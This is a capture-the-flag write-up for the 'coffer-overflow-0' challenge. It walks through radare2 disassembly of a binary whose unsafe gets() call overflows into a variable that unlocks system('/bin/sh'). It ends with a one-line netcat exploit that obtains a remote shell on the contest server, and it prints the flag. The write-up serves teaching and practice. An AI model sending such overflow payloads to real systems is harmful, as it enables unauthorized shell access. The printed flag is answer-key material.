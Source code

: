 # coffer-overflow-0

## Description

NotDeGhost

Can you fill up the coffers? We even managed to find the source for you.

## Solution

We're given a binary and source code.
Disassembling the source code gives us the following:

```asm
[0x00400590]> aaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Check for objc references
[x] Check for vtables
[x] Type matching analysis for all functions (aaft)
[x] Propagate noreturn information
[x] Use -AA or aaaa to perform additional experimental analysis.
[0x00400590]> afl
0x00400590    1 42           entry0
0x004005d0    4 42   -> 37   sym.deregister_tm_clones
0x00400600    4 58   -> 55   sym.register_tm_clones
0x00400640    3 34   -> 29   sym.__do_global_dtors_aux
0x00400670    1 7            entry.init0
0x00400780    1 2            sym.__libc_csu_fini
0x00400784    1 9            sym._fini
0x00400710    4 101          sym.__libc_csu_init
0x004005c0    1 2            sym._dl_relocate_static_pie
0x00400677    3 143          main
0x00400560    1 6            sym.imp.setbuf
0x00400550    1 6            sym.imp.puts
0x00400580    1 6            sym.imp.gets
0x00400570    1 6            sym.imp.system
0x00400528    3 23           sym._init
[0x00400590]> pdf @ main
            ; DATA XREF from entry0 @ 0x4005ad
┌ 143: int main (int argc, char **argv, char **envp);
│           ; var char *s @ rbp-0x20
│           ; var uint32_t var_8h @ rbp-0x8
│           0x00400677      55             push rbp
│           0x00400678      4889e5         mov rbp, rsp
│           0x0040067b      4883ec20       sub rsp, 0x20
│           0x0040067f      48c745f80000.  mov qword [var_8h], 0
│           0x00400687      488b05d20920.  mov rax, qword [obj.stdout] ; obj.stdout__GLIBC_2.2.5
│                                                                      ; [0x601060:8]=0
│           0x0040068e      be00000000     mov esi, 0                  ; char *buf
│           0x00400693      4889c7         mov rdi, rax                ; FILE *stream
│           0x00400696      e8c5feffff     call sym.imp.setbuf         ; void setbuf(FILE *stream, char *buf)
│           0x0040069b      488b05ce0920.  mov rax, qword [obj.stdin]  ; obj.stdin__GLIBC_2.2.5
│                                                                      ; [0x601070:8]=0
│           0x004006a2      be00000000     mov esi, 0                  ; char *buf
│           0x004006a7      4889c7         mov rdi, rax                ; FILE *stream
│           0x004006aa      e8b1feffff     call sym.imp.setbuf         ; void setbuf(FILE *stream, char *buf)
│           0x004006af      488b05ca0920.  mov rax, qword [obj.stderr] ; obj.stderr__GLIBC_2.2.5
│                                                                      ; [0x601080:8]=0
│           0x004006b6      be00000000     mov esi, 0                  ; char *buf
│           0x004006bb      4889c7         mov rdi, rax                ; FILE *stream
│           0x004006be      e89dfeffff     call sym.imp.setbuf         ; void setbuf(FILE *stream, char *buf)
│           0x004006c3      488d3dce0000.  lea rdi, str.Welcome_to_coffer_overflow__where_our_coffers_are_overfilling_with_bytes ; 0x400798 ; "Welcome to coffer overflow, where our coffers are overfilling with bytes ;)" ; const char *s
│           0x004006ca      e881feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004006cf      488d3d120100.  lea rdi, str.What_do_you_want_to_fill_your_coffer_with ; 0x4007e8 ; "What do you want to fill your coffer with?" ; const char *s
│           0x004006d6      e875feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004006db      488d45e0       lea rax, [s]
│           0x004006df      4889c7         mov rdi, rax                ; char *s
│           0x004006e2      e899feffff     call sym.imp.gets           ; char *gets(char *s)
│           0x004006e7      48837df800     cmp qword [var_8h], 0
│       ┌─< 0x004006ec      7411           je 0x4006ff
│       │   0x004006ee      488d3d1e0100.  lea rdi, str.bin_sh         ; 0x400813 ; "/bin/sh" ; const char *string
│       │   0x004006f5      b800000000     mov eax, 0
│       │   0x004006fa      e871feffff     call sym.imp.system         ; int system(const char *string)
│       │   ; CODE XREF from main @ 0x4006ec
│       └─> 0x004006ff      b800000000     mov eax, 0
│           0x00400704      c9             leave
└           0x00400705      c3             ret
[0x00400590]>
```

Important things to note here:

 - `0x004006ee` calls `system` with the parameter `"/bin/sh"`, which spawns a shell.
 - `0x004006ec` includes instructions to jump and skip the above system call if `[var_8h]` is equal to 0 and `[var_8h]` is set to 0 at the start of the program.
 - `0x004006e2` includes an unsafe call to `gets` and sets the value of `s`.
 - `s` is placed on the stack after `[var_8h]`, allowing the call to `gets` to write to both variables.

The difference between `s` and `[var_8h]` is 0x20 - 0x8 bytes, or 24 bytes.
Therefore, writing 25 bytes is enough to alter the value of `[var_8h]`.

To prevent the program from exiting, we can use `cat` to direct `stdin` to `stdout` and pipe that to the program along with our payload.
This will allow us to type bash commands and read files such as `flag.txt` which contains our flag.

## Exploit Script

```sh
#!/bin/bash

(echo aaaaaaaaaaaaaaaaaaaaaaaaa; cat) | nc 2020.redpwnc.tf 31199
```

## Flag

```flag{b0ffer_0verf10w_3asy_as_123}```


